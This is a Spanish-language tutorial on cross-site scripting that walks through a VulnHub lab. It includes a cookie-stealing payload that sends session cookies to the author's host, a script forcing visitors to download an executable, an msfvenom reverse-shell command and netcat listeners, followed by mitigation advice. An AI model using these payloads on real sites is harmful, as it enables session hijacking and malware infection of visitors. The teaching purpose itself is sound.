

# VULNERABILIDAD XSS
Cross-Site Scripting (XSS) es uno de los ataques más conocidos y explotados en entornos web, forma parte de las 10 vulnerabilidades más frecuentes en aplicaciones web desde 2014, algunas estadísticas afirman que el 70% de los sitios web tienen al menos una vulnerabilidad de XSS. Este ataque se aprovecha de fallas de seguridad de sitios y aplicaciones web ya que permite a un atacante cargar scripts maliciosos en un sitio web del lado del navegador para que un usuario desprevenido visite el sitio y sea infectado, tal como robar sus cookies (credenciales), realizar un defacement, cargar un código malicioso para obtener sesión de la máquina víctima o simplemente redirreccionar al usuario a otro sitio malicioso (phishing).
¿Cómo se inyecta el script malicioso?
Normalmente el atacante lo que hace es buscar una entrada de datos en el sitio web, como puede ser un simple input de búsqueda o formularios/campos de comentarios, así como en la misma URL con un payload precargado.
Tipos de ataques de Croo-Site Scripting
Existen tres tipos de vectores de XSS:
XSS indirecto (reflejado): Es el tipo de ataque más común, el atacante inyecta el script en el sitio web y esté es ejecutado cuando el usuario hace una petición al servidor web, es entonces cuando se carga el script y se muestra como un mensaje de error. Por el lado de la víctima, se mostrará dicho mensaje y que deberá hacer clic en el enlace que se le indique, ejecutando así el código malicioso y descargando el malware en su equipo.
XSS directo (persistente): En este caso, el ataque persistente infecta todas las respuestas HTTP a través de la carga maliciosa por parte del atacante, la diferencia con el reflejado es que en este no es necesario atraer a la víctima y redireccionarla con un enlace; lo único que tiene que hacer es esperar que está haga clic sobre algún campo de comentario y el hackeo se produce automático, o mejor dicho, de forma pasiva.
XSS basado en DOM: El tercer ataque intenta escabullirse lo más que pueda, volviéndola difícil de detectar si no se profundiza el código línea por línea. El payload del ataque se ejecuta en la modificación del entorno DOM en el navegador de la víctima utilizado por el código del lado del cliente original, es decir, la respuesta HTTP no cambia, pero el contenido de la página se ejecuta de manera diferente debido a las modificaciones maliciosas del script producido en el entorno DOM. Por ejemplo, al escribir código Javascript en la URL para ser tomado como parte del HTML.

Cookies
Las cookies es un fragmento de información que es enviada por un sitio web y es almacenada en el navegador del usuario. Permite que los sitios web accedan a la información con fines estadísticos, ofrecer mejor experiencia y servicios útiles; tomando como muestra nuestra ubicación, idioma, intereses, entre otras para ofrecernos publicidad orientada.
Desde antes ya existían las cookies solamente que no eran obligatorias mostrarlas, desde entonces cada vez que visitamos un sitio web, estas están obligadas a mostrar un mensaje de advertencia de uso de cookies y sus políticas. Las cookies son archivos temporales y su duración es temporal, por lo que podemos configurarlas, borrarlas o bloquearlas con extensiones gratuitas del navegador. Se vuelven peligrosas cuando no se suele avisar al usuario ya que pueden recopilar otros datos confidenciales.
# DETECTAR VULNERABILIDAD XSS
Como muestra de ejemplo, descargué una máquina de vulnhub llamada "PENTESTER LAB: XSS AND MYSQL" para demostrar como es posible aprovecharse de esta vulnerabilidad en un entorno controlado y legal.

Servidor web: http://192.168.25.135
Nmap contiene un script para detectar posibles vectores vulnerables a XSS.
$ nmap -p80 --script http-stored-xss.nse <TARGET>
También podemos hacer uso de herramientas como XSStrike, PwnXSS, xsser, entre otras existentes.

Pero el objetivo del post es detectar y explotar vulnerabilidad XSS de forma manual, y para eso, es preciso contar con básicos conocimientos de Javascript para inyectar código del lado del navegador y que esté sea leído y ejecutado. La ventaja de llevarlo manual es que no hace mucho ruido, por ejemplo el siguiente código emitirá una alerta y sabremos si es vulnerable a XSS o no:
$
<script>alert("Vulnerable a XSS");</script>
Luego de hacer clic en "Submit" mostrará el mensaje de alerta.

# SECUESTRO DE COOKIES
Definitivamente la página es vulnerable a Cross-Site Scripting, cuando otro usuario intente hacer un comentario se ejecutará la alerta anterior, pero... -¿y ahora qué?- Bueno, aquí es dónde hay que exprimir todo el jugo a esta vulnerabilidad. Según la web hay un panel de administración así que intentaré robar las cookies de un usuario privilegiado e iniciar sesión, y para ello usaré el siguiente script:
$
<script>document.write('<img src="http://192.168.1.9:8585/?'+document.cookie+' "/>");</script>La dirección IP local es la de mi máquina (Kali) y el puerto 8585 es dónde se va a escribir y almacenar la cookie.

Ahora lo que haremos es poner a escucha el puerto 8585 y esperar a que un usuario inicie sesión para capturar la cookie. Para esto podemos usar Netcat o Python:
$ Netcat: nc -lvnp 8585
Python3: python3 -m http.server 8585
Cookie: u61dlmmqrsrbt612lmu4tmh0o5
Después de capturar la cookie, descargan la extensión "Cookie Manager" del navegador Firefox y creamos una nueva cookie. En value pegan la cookie y en la URL el sitio web:

Recargamos la página y le damos a "Admin" y como verán, iniciamos sesión en la cuenta del administrador sin necesidad de aportar ninguna credencial.

# OBTENER CONTROL DE LA MÁQUINA DEL USUARIO
Aquí es dónde viene lo peligroso, no solamente podemos hackear el sitio web, sino también cargar un software o código malicioso para que cualquier usuario que visite el sitio web descargue malware y se infecte. Para eso es necesario utilizar otro script más malicioso aún:
$
<script>var software = document.createElement('a');
software.href='http://192.168.1.9/documento.exe';
software.download= '';
document.body.appendChild(software);
software.click();</script>
En el código anterior se crea una variable llamada "software" en dónde se le indica que redireccione al usuario a la página (nuestra IP local) y descargue el programa malicioso (documento.exe). Posteriormente hay que crear el archivo ejecutable malicioso con msfvenom, LHOST es su IP local y el LPORT es el puerto a escucha de conexiones, al final especifiqué la ruta en el directorio raíz del servidor local y finalmente el nombre del archivo:
$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.9 LPORT=4444 EXITFUNC=thread -f exe -a x86 --platform windows -b "\x00\x0a\x0d" -e x86/shikata_ga_nai > /var/www/html/documento.exe
Abrir servidor local HTTP:
$ sudo service apache2 startCualquier usuario que entre a la página web se le preguntará si desea descargar el documento y en caso de que alguien lo descargue y ejecute, deberíamos de tener una terminal a escucha de conexiones por el puerto 4444 con Netcat o Python:
$ Netcat: nc -lvnp 4444
Python3: python3 -m http.server 4444
Finalmente el usuario ejecuta el documento "legítimo" y obtendremos acceso al sistema operativo:

# MITIGAR VULNERABILIDAD
Por parte del administrador del sitio web se le aconseja bloquear determinados caracteres que pueden ser utilizados para introducir código malicioso, validar y verificar todos los datos de entrada que el usuario pueda ingresar como texto; así como la longitud de la misma. Implementar un WAF que impida los ataques de XSS y monitoreé el tráfico HTTP, codificar los datos de salida para los usuarios. Por parte de los usuarios es aconsejable que mantengan antivirus y navegadores actualizados. Para los usuarios de Firefox y Chrome, por ejemplo, existe una extensión llamada "NoScript" que bloquea automáticamente código JavaScript, Adobe Flash o Microsoft Silverlight a través de una lista blanca de páginas.
Los siguientes caracteres de HTML meta pueden ser sustituidos para que los archivos potencialmente infectados no se puedan ejecutar:

Lista de sustitución de caracteres HTML: https://htmlhelp.com/reference/html40/entities/special.html
Lista de payloads XSS: https://github.com/payloadbox/xss-payload-list